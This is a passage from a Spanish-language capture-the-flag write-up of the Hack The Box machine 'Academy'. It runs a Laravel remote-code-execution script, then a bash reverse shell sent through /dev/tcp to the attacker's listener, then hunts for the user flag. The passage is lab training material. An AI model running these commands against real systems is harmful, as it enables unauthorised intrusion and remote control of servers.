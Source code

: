 ```bash
usage: pwn_laravel.py [-h] [-c COMMAND] [-m {1,2,3,4}] [-i] URL API_KEY
```

Para ejecutarlo, simplemente proporcionamos la `URL` como parámetro, junto con el `API_KEY`. Usamos el parámetro `-c` para especificar el comando que deseamos ejecutar en la máquina víctima, en este caso "`id`".

```bash
❯ python3 pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Después de haber confirmado su funcionamiento correctamente, procedemos a ponernos en escucha en el puerto 443 y luego ejecutamos el siguiente comando para establecer una reverse shell hacia nuestro equipo atacante:

```bash
❯ python3 pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c "bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'"
```

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.215] 44452
bash: cannot set terminal process group (917): Inappropriate ioctl for device
bash: no job control in this shell
www-data@academy:/var/www/html/htb-academy-dev-01/public$ whoami
whoami
www-data
www-data@academy:/var/www/html/htb-academy-dev-01/public$
```

Para tener una shell más interactiva, procedemos a realizar un [Tratamiento de la TTY](https://r1vs3c.github.io/posts/tratamiento-tty/).

Ahora, en el directorio `/home`, realizamos una búsqueda recursiva de la user flag

```bash
www-data@academy:/home$ find . -name user.txt -type f 2>/dev/null
./cry0l1t3/user.txt
```

Al intentar acceder, notamos que no tenemos permisos de lectura.

```bash
www-data@academy:/home$ cat ./cry0l1t3/user.txt
cat: ./cry0l1t3/user.txt: Permission denied
www-data@academy:/home$ ls -l ./cry0l1t3/user.txt
-r--r----- 1 cry0l1t3 cry0l1t3 33 Aug 17 06:43 ./cry0l1t3/user.txt
```

## Pivoting de usuario

---

